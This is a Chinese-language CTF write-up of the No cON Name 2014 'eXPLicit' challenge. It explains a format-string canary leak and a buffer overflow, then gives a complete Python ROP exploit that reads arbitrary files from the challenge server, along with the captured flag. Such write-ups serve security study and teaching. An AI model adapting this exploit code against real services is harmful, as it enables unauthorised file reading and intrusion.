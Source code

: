```yaml
---
layout: post
title: No cON Name CTF Quals 2014 - eXPLicit
category: writeup
---
```


> Make me eXPLode! Hint: maybe you want to give a look at the binary... 
> https://ctf.noconname.org/chdownloads/explicit
> Url: 88.87.208.163:7070
> Points: 500

題目是個猜數字遊戲:

```sh
$ nc 88.87.208.163 7070
Welcome to Guess The Number Online!

Pick a number between 0 and 20:
```

<!--more-->

測試後可以發現程式存在 `Format String` 及 `Buffer Overflow` 的漏洞，但有 `Stack Canary`

配合 `Format String` 漏洞，我們可以先 leak 出 canary 的值，在不改變 canary 的同時覆蓋 return address

輸入字串 `%70$08X` ，就可以 leak 出 canary

下面是一個簡單的 ROP Payload，可以讀寫任意檔案，雖然我們不知道 flag 的路徑，
但透過讀取 `/etc/passwd`，還是可以得到 username，再進一步猜到 flag 路徑: `/home/ch5/flag.txt`

```py
#!/usr/bin/env python
import socket
import telnetlib
from struct import pack

addr_data = 0x080D50C0

addr_open = 0x805EEEA
addr_read = 0x805EF40
addr_write = 0x0805EFAA

pop3 = 0x0805C39E
pop2 = 0x080482f7

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('88.87.208.163', 7070))

# recv game message
print s.recv(1024)

# leak canary
s.send("0x%70$08X\n")
r = s.recv(1024)
index = r.index('0x')

canary = int(r[index+2:index+10], 16)
print "canary: ", hex(canary)

# payload
p = 'A' * 256
p += pack("<I", canary) # canary
p += 'A' * 12

# read(4, addr_data, 256)
p += pack("<I", addr_read)
p += pack("<I", pop3)
p += pack("<I", 4)
p += pack("<I", addr_data)
p += pack("<I", 256)

# open(addr_data, 0, 0)
p += pack("<I", addr_open)
p += pack("<I", pop3)
p += pack("<I", addr_data)
p += pack("<I", 0)
p += pack("<I", 0)

# read(5, addr_data, 1000)
p += pack("<I", addr_read)
p += pack("<I", pop3)
p += pack("<I", 5)
p += pack("<I", addr_data)
p += pack("<I", 1000)

# write(4, addr_data, 1000)
p += pack("<I", addr_write)
p += pack("<I", pop3)
p += pack("<I", 4)
p += pack("<I", addr_data)
p += pack("<I", 1000)

p += "\n"

s.send(p)
print s.recv(1024)
print s.recv(1024)

s.send("q\n")
print s.recv(1024)

s.send("/home/ch5/flag.txt")
print s.recv(1024)

print "\nFile Content: "
print s.recv(1024)

print "\n"

# interact
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Flag: `NcN_97740ead1060892a253be8ca33c6364a712b21d`
